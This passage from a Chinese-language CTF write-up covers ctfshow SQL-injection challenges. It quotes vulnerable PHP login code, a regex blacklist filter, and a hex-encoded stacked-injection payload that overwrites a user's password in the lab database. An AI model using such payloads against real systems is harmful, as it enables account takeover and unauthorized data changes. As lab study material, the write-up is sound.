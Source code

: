 ```php
  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

根据提示堆叠注入

其实就是在;后面再执行任意的sql命令

这里直接改密码

```
payload="0x61646d696e;update`ctfshow_user`set`pass`=0x313131;"
# 至于为什么非得用十六进制登录，是因为下面这个没有字符串单引号包围
sql = "select pass from ctfshow_user where username = {$username};";
# @Author:Y4tacker
```

```
admin <=> 0x61646d696e
111<=>0x313131
```

![image-20250210000521664](../assets/image-20250210000521664.png)



#### web196

```
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
      
返回逻辑


  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
      
```
